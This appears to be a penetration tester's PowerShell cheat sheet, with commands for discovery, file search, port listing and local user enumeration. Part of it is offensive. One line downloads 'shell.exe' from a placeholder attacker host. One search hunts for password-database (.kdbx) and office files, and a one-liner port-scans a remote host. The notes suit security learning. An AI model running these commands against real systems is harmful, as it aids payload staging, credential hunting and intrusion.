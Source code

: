# Powershell

Discoverability of scripting languages like Powershell or shell is poor by design.
These notes are for the weary shell-user who finds themselves stuck in a powershell (possibly on a remote machine).
Powershell cmdlets follow the naming pattern of `Verb-Noun`.

## Useful meta commands

Cmdlet for listing other available cmdlets:
```
Get-Command
```

It can take inputs with wildcards.

Once you find the cmdlet you want to use, you can investigate it with:

```
Get-Help ${cmdlet}
```

Now a man-page like output should help discovering how to use it.


## Downloading a file from a URI

```
Invoke-WebRequest -Uri "http://${ATTACK_IP}:${PORT}/shell.exe" -OutFile "shell.exe"
```
or

```
iwr -uri "http://${ATTACK_IP}:${PORT}/shell.exe" -OutFile "shell.exe"
```

## Useful commands cmdlets for searching and enumerating

searching, similar to `find`:
```
Get-ChildItem -Recurse -Filter "filename*"
```
Remeber that you can ignore errors with `-ErrorAction SilentlyContinue` for all these commands.

If we want all files of a specific filetype, we can do:

```
Get-ChildItem -Include *.txt,*.kdbx,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

You can `cat` with:

```
Get-Content -Path $file
```


Base64 decode:

```
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($exampleVar))
```

Open ports:

```
Get-NetTCPConnection
```

Search for only listening ports:
```
Get-NetTCPConnection | Where-Object -Property State -EQ Listen
```

Search for file containing a specific text:

```
Get-ChildItem -Recurse -Path "C:\" | Select-String "${someVar}" -List | Select Path
```

We can use the following trick to exclude paths we don't care about:
```
Get-ChildItem -Recurse -Path "C:\" | Select-String "${someVar}" -List | Select Path | Where-Object { $_ -notmatch ".Net" -and $_ -notmatch "Windows" }
```


If you have a search you know will output the file you want, you can pipe it into `Select-Object`:

```
Get-ChildItem -Path "C:\" -Recurse -Filter "*filter*" | Select-Object -First 1 | Get-Content
```

This will cat the contents of the first file the `Get-ChildItem` cmdlet outputs.

## Open powershell terminal with other credentials:

With admin privileges:
```
Start-Process "powershell" -Credential "Administrat0r" -ArgumentList "Start-Process powershell -Verb runAs" -WorkingDirectory 'C:\Users'
```
Without admin privileges:
```
Start-Process "powershell" -Credential "Administrat0r" -ArgumentList "Start-Process powershell" -WorkingDirectory 'C:\Users'
```


Note you need to kill the parent shell for this to work.
There are probably smarter ways.

## Enumerating open ports with Powershell

(Also referenced in [enumeration.md](./../enumeration.md)
```
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("$RHOST", $_)) " $_/tcp open"} 2>$null
```


## Example of pipes with Where-Object and ForEach-Object
```
Get-LocalGroupMember Users | Where-Object {$_.ObjectClass -Eq "User"} | ForEach-Object -Process {Get-LocalUser $_.Name.split('\')[1]}
```
